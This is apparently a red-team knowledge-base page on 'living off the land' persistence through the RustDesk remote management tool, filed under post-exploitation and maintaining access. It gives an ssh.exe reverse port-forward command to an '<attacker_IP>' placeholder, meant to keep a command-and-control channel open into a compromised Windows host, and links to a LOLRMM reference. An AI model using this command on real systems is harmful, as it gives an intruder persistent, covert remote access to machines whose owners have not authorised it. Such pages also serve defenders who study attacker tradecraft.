 # Living off the Land

To maintain connection through the C2 due to the open source nature of the RMM.

```
C:\> ssh.exe [-p <PORT>] -R *:10400 <username>@<attacker_IP>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Third Party/Remote Monitoring and Management/RustDesk/Malware Development/Scripting]]

### LOLRMM

- [LOLRMM: RustDesk](https://lolrmm.io/tools/rustdesk)